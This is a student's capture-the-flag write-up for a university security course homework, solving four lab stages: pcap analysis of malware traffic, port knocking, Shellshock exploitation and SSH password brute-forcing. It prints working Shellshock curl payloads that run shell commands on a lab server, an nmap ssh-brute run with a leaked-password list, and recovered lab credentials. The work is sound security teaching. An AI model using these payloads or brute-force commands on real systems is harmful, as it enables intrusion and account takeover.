





# Solution for BSY Bonus homework

This paper describes the solution to BSY bonus homework with all the stages,
commands and tools used.

## Stage 1.

For first stage we were provided with token that we got to use further down
the rabbit hole of challanging tasks in this assignment. The token was used
to authenticate and authorize ourselves to the flag server.

We were also told the IP of the first flag server - `192.168.1.167:9292`.
Naturally, the first thing that we tried was to ncat to that server
and see what happends. Upon connecting, following communication happened:

```
<Grinch> Please provide your token
***
<Grinch> What type of malware is it? (Choose on from Banking Trojan, Ransomware, RAT, Adware, CryptoMiner)

<Grinch> What is the periodicity of the communication in seconds? (Remove decimals, for example 122.7 becomes 122)

<Grinch> What is the port used for the C&C communication?

<Grinch> What is the DNS server IP address?

You answered correctly 0 out of 4 questions.
You have 13 remaining attempts.
```

Good... Now we know what we are looking for and that we can't bruteforce it
(which probably wouldn't make sense even if there wasn't upper bound on the
attempts as the solution space is really big).

We fired up our old friend wireshark, downloaded the pcap provided for the first
stage and started with the tedious task of finding *something*.

The pcap contained exactly 10000 packets. We started with some basic analysis.
Filtering by `dns` showed bunch of queries that appered to be mostly normal.
`http` showed a few results that were from chrome browser extension, nothing
fishy there either.


We played around a bit, filtering out things that didn't yield any results
such as the previously mentiones dns and http traffic, we further filtered
out ssl traffic as there is not way we are breaking into that. We also plotted
the traffic by time, looked at all the port and IP pairs that communicated and more.
Nothing helped very much so we decided to take deeper look into packets
starting with tcp traffic. We filtered the pcap using `tcp and not ssl`.
In the first 7000 second of this traffic we saw a few packets comming one after
another in 300 second interval, that seemed fishy. We focused on that stream.



This seemed like a client periodically reporting back to server, except not in
any well known way. Sort of health-check but on the client instead of server.
As we spent already a lot of time on this part of the task, we decided to go ahead
and try to get the flag with what we had.



We fired up ssh to our server, ncat-ed to the flag server again and tried to answer
with:

```
<Grinch> Please provide your token
***
<Grinch> What type of malware is it? (Choose on from Banking Trojan, Ransomware, RAT, A>
Ransomware
<Grinch> What is the periodicity of the communication in seconds? (Remove decimals, for>
300
<Grinch> What is the port used for the C&C communication?
443
<Grinch> What is the DNS server IP address?
1.1.1.1
You answered correctly 3 out of 4 questions.
You have 12 remaining attempts.
```

Cool! 3 out of 4, that's pretty good. We were almost 100% sure that the wrong answer
is the first one. To verify that, we tried answering with different value for that question.
And indeed:

```
<Grinch> Please provide your token
***
<Grinch> What type of malware is it? (Choose on from Banking Trojan, Ransomware, RAT, A>
Banking Trojan
<Grinch> What is the periodicity of the communication in seconds? (Remove decimals, for>
300
<Grinch> What is the port used for the C&C communication?
443
<Grinch> What is the DNS server IP address?
1.1.1.1
You answered correctly 3 out of 4 questions.
You have 11 remaining attempts.
```

The first answer was the wrong one. With that confirmed and enough attempts left
we just decided to try out all the values until we hit the correct one.

The correct value was `RAT`:

```
<Grinch> Please provide your token
***
<Grinch> What type of malware is it? (Choose on from Banking Trojan, Ransomware, RAT, A>
RAT
<Grinch> What is the periodicity of the communication in seconds? (Remove decimals, for>
300
<Grinch> What is the port used for the C&C communication?
443
<Grinch> What is the DNS server IP address?
1.1.1.1
```

And the flag server responded with:

```
<Grinch> Saving you, is that what you think I was doing? Wrong-o. I merely noticed that you're improperly packaged, my dear.
<Grinch> Here is something you migt need later: 3232235903
Knock knock... Your VM might be handy.

Hint: MzcgMzAgMzAgMzAgMmMgMzggMzAgMzAgMzAgMmMgMzkgMzAgMzAgMzAgMmMgMzEgMzAgMzAgMzAgMzA=

<Grinch> This is the end of stage 1. You rock!
```

Stage one done.



## Stage 2.

We started stage 2 with 2 hints from stage one. One was the number 3232235903.
As any other good programmer would the first thing we did was we googled
(duck-duck-go-ed in our case) for that numer. The first result had following description:

> The host has the hardware IP 192.168.1.127. This hardware Internet Protocol Address yields to proper specifications of an IPv4 Internet Protocol Address, which has a long integer value of 3232235903.

Cool, so we know, what the target server for task 2 is - 192.168.1.127.

The other hint was string `MzcgMzAgMzAgMzAgMmMgMzggMzAgMzAgMzAgMmMgMzkgMzAgMzAgMzAgMmMgMzEgMzAgMzAgMzAgMzA=`.
Equal sign at the end gives it away right away that we got a base64 encoded string.

We quickly decoded the string using:

```
echo "MzcgMzAgMzAgMzAgMmMgMzggMzAgMzAgMzAgMmMgMzkgMzAgMzAgMzAgMmMgMzEgMzAgMzAgMzAgMzA=" | base64 -d
```

Which yielded following result:

```
37 30 30 30 2c 38 30 30 30 2c 39 30 30 30 2c 31 30 30 30 30
```

Seems like some hex encoded data, or maybe something else, but let's try that first.
We used website https://cryptii.com/pipes/hex-decoder to decode the data and we got:

```
7000,8000,9000,10000
```

Seems like port numbers maybe? What else if the only other thing we have right now is
the IP address.

There's also one more thing that we noticed in the result of stage one.
There's the sentence:

> Knock knock... Your VM might be handy.

With the ports and IP in mind we thought that this might be port knocking task to get
into the flag server for stage 2.

First we quickly scanned the target server for open ports to see what we dealing with
and if we can get more information before starting with the port knocking.

```
sudo nmap -sS -n -v 192.168.1.127 -T5 --min-parallelism 200 --max-rtt-timeout 5 --max-retries 1 --max-scan-delay 0 --min-rate 1000 -p-
```

Got following ports: 22, 902, 6667, 8081

Ports 22 and 902 were ssh ports. Port 8081 responded with a webpage and 6667 with
something that looked like a man page with star wars theme. We tried directory traversal
on the webpage hosted on 6667 but didn't have much luck. Some easy things succh as
`curl 192.168.1.127:8081/flag` returned with code 404. After a while we gave up.
After that, we tried some easy man page escapes on the same server and port 6667.
On https://gtfobins.github.io/ we looked for `man`. To escape man page all one needs
to is write `!/bin/sh`. Sadly, this didn't help and we were where we started.

We continued with the thing that we should have started with - port knocking.
After knocking on all the ports as the hint subtly suggests using following bash script:

```
HOST=$1
shift
for (( COUNTER = 0; COUNTER < 100; COUNTER += 1 )); do
  for PORT in "$@"; do
    nmap -Pn --host_timeout 100 --max-retries 0 -p $PORT $HOST
  done
done
```

Using command: `knock.sh 192.168.1.127 7000 8000 9000 10000` and running nmap again
we see that new port opened. It is port 8080 and upon making a curl request on it 
we get a response with following lines:

```
This is a vulnerable web application for showcasing CVE 2014-6271, a.k.a. Shellshock.</br>
</br>
Vulnerability as a Service, brought to you by <a href="https://hml.io/" target="_blank">https://hml.io/</a>.</br>
```

Quick google for this CVE vulnarbility and reading a little bit for example from https://nvd.nist.gov/vuln/detail/CVE-2014-6271
We found out, that this vulnarbility can be exploited using following command:

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'pwd'" 192.168.1.127:8080/cgi-bin/stats
```

This basically means, that we can send bash script in User-Agent header and the server
will execute it for us. We started poking around the server a bit. First we tried to
see what other users are there on the server:

```
▶ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'ls /home'" 192.168.1.127:8080/cgi-bin/stats

grinch
```

Nice! Only one user and the name suggests that we are heading the right way!
After runnig `ls -a` in the homefolder of user `grinch` we saw that there's a lot
of textfiles with our school usernames being the names of the files.
We quickly got the contents of our files:

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /home/grinch/.dzivjmat.txt;'" 192.168.1.127:8080/cgi-bin/stats
```

Content of the file:

```
[a-zA-Z0-9]{3} symetric:
d28e15d6319292a6a037875eb58d9bb6b746154bf1a18f2fe6be2309e03fdad178c8ebdb1c23a6d883b9b81a9746e96c54571938c9ab7cf03fe9efac11922fd01cdad568d0bad79307622a9c72247ad11923861bb368cd07fcad19e136a8ce1de368ae30a3e32941bc9a3789e19b755f14712eb560c31187db4292e577c1521db4dbe8f633301a46195ee0cfea476de74714307ea9b79f1acf358f1fcc8741285722dc
```

Well. That's a bunch of giberish, what the hell are we supposed to do with that?
[a-zA-Z0-9]{3} suggest that the text is build of alphanumeric triples. For `symetric`
we though, that it might mean, that this is a symetric cipher text. We toyed around
for a hour or two again but didn't seem to be getting anywhere so we decided to get
back to the server and see if there's something more that could help us. In the home
directory of grinch there was on more file - XmasPresent.txt:

```
“Maybe Christmas (he thought) doesn’t come from a store. Maybe Christmas perhaps means a little bit more.” — The Grinch
```

Pretty useless present to be honest. We tried a lot more but nothing took us further so
we gave up and went back to the scatch board with the cipher.

We google (read ddg-ed) for all possible combinations of the hint and text for the hint.
In the end we tried to google just for some symmetric ciphers and found http://www.crypto-it.net/eng/symmetric/index.html
This page lists a few stream ciphers at the start. The first one is OTP but OTP required
key of same length as the text which we definitely don't have. The only key that we
have and can try to use to decode the text is our code we got before the start of the bonus
assignment. Second mentioned cipher is RC4, this is better as it does't required the
key to have the same length as the text. We googled (again, ddged) for RC4 decoder
and found following page that provides online tool to decode RC4 cipher: https://www.dcode.fr/rc4-cipher
We submitted our encoded text with our key and got following decoded string:

```
Hello there! This is the end of stage 2!There are many Elves on the shelf, but Comet is special. Instructions for the next stage are in home directory of this elf!
```



Happy that we succesffully solved stage 2 we decided to hop onto stage 3. right away.

## Stage 3

From the hint we assumed that we are looking for user named Comet. Just to be sure,
we tried again the exploit from previous stage to see if there's anything belonging
to this user:

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'find / -name *Comet*;'" 192.168.1.127:8080/cgi-bin/stats
```

This didn't bring any results. We also tried searching for elfs, in the end, elf are executable
files and maybe there's one on the server that could lead us further. Sadly, elves didn't
match anything too:

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'find / -name *elf*;'" 192.168.1.127:8080/cgi-bin/stats
```

Around that time we received email with hint:

```
In case you are working on the later stages of the bonus assignment and you feel stuck here is a couple of hints for you:

-When in doubts, try to roll back and see what have you discovered during the previous stages.
-Sometimes you have to use force to get things going. If that is not enough, use more force.
-When running scripts with nmap, be sure it doesn't stop prematurely. 'unpwdb.timelimit' might be useful for that
-Choose your words carefully. If used properly, you shouldn't need more than 20000 of them.
-Speaking of which, take hints from the master lyrist here: https://www.youtube.com/watch?v=y3Ca3c6J9N4

See you on Thursday.

Ondrej
```

With the email stressing out *force*, *rock you* and choosing words carefully, no more than *20000*
we immediately knew what to do - bruteforce! The only other ports open on the server that
we didn't explore more in depth previously were port 22 and 902 both running ssh.
So our task is to break into account of user named comet. We decided to go with the
common ssh port (22) first. We downloaded the rockyou password database from [SecList[(https://github.com/danielmiessler/SecLists).
SecList contains multiple databases but we know that we won't need more then 20000 words
so we downloaded the smallest larger rockyou database which was [rockyou-60.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou-60.txt)

```
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Leaked-Databases/rockyou-60.txt
```

Now the funs comes - breaking password. For that we used nmap:

```
sudo nmap -sS -sV -p 22 192.168.1.127 -v -n --script ssh-brute --script-args userdb=users.txt,passdb=rockyou-my.txt
```

We had to start the script multiple times as it always suddenly stopped working.
After each run we shortened the database by the number of tried passwords:

```
tail -n (( 21000 - number_of_checked_passwords )) rockyou-60.txt > rockyou-60.txt
```

After a few hours we finally got the password:

```
Completed NSE at 21:52, 449.87s elapsed
Initiating NSE at 21:52
Completed NSE at 21:52, 0.00s elapsed
Nmap scan report for 192.168.1.127
Host is up (0.0015s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-brute:
|   Accounts:
|     comet:diehard - Valid credentials
|_  Statistics: Performed 465 guesses in 449 seconds, average tps: 0.9
MAC Address: 08:00:27:06:8F:03 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Welcome message:
```
*****************************************************************
<Grinch> Congratulations! This is the end of stage 3!        *
                                *
<Grinch> Look for presents to get instructions for stage 4!    *
*****************************************************************
```

There was only one file in the home directory of comet - `Stocking`.
Content of file `Stocking`:

```
For Final stage (Stage 4) you should desing and implement a C&C bot using the github repo/github gist(https://gist.github.com/).
Design your bot such that it can perform following tasks in the target machine:

    * List files in specified directory
    * List active users
    * List running processes
    * Action of your own choice (Describe in the report)

And report results back to the control server.

Good luck and Merry Xmas!
---------------------------------------------------------------------------------------------------------------------------------
       _____________,--,
      | | | | | | |/ .-.\   HANG IN THERE
      |_|_|_|_|_|_/ /   `.      SANTA
       |_|__|__|_; |      \
       |___|__|_/| |     .'`}
       |_|__|__/ | |   .'.'`\
       |__|__|/  ; ;  / /    \.-"-.
       ||__|_;   \ \  ||    /`___. \
       |_|___/\  /;.`,\\   {_'___.;{}
       |__|_/ `;`__|`-.;|  |C` e e`\
       |___`L  \__|__|__|  | `'-o-' }
       ||___|\__)___|__||__|\   ^  /`\
       |__|__|__|__|__|_{___}'.__.`\_.'}
       ||___|__|__|__|__;\_)-'`\   {_.-;
       |__|__|__|__|__|/` (`\__/     '-'
       |_|___|__|__/`      |
-jgs---|__|___|__/`         \-------------------
-.__.-.|___|___;`            |.__.-.__.-.__.-.__
  |     |     ||             |  |     |     |
-' '---' '---' \             /-' '---' '---' '--
     |     |    '.        .' |     |     |     |
'---' '---' '---' `-===-'`--' '---' '---' '---'
  |     |     |     |     |     |     |     |
-' '---' '---' '---' '---' '---' '---' '---' '--
     |     |     |     |     |     |     |     |
'---' '---' '---' '---' '---' '---' '---' '---'
                    - Joan Stark
--------------------------------------------------------------------------------------------------------------------------------
```




## Stage 4.

We implemented the bot using python and IRC server for communication.
The implementation is at my github: https://gist.github.com/matoous/d119d70872af7cc4c7d7fa9f2835fbdb

## Summary

Overall this bonus assignment proved to be way harder then we expected. Some parts were
fun, some were not. We didn't like the pcap analysis very much as we are not a big fans
of any analysis in general. The port knocking was a lot of fun also with the exploit.
We also enjoyed the decoding of various things and writting bash scripts. The cipher was
strange, from capture the flag competitions we are used to the path being clearer,
here the time spent depended a lot on what we found first, where we searched, etc.
This part would be probably more fun, if we knew better what the cipher is but maybe
had to write our own decoder for slightly modified version of the cipher or something
along this way... The final part with bruteforce was fun again and we also enjoyd writting our
own C&C server and bot (BTW, did you know, that IRC messages are capped at 520 chars? Sucks...).

_Thanks for nice subject with a lot of practical insight_
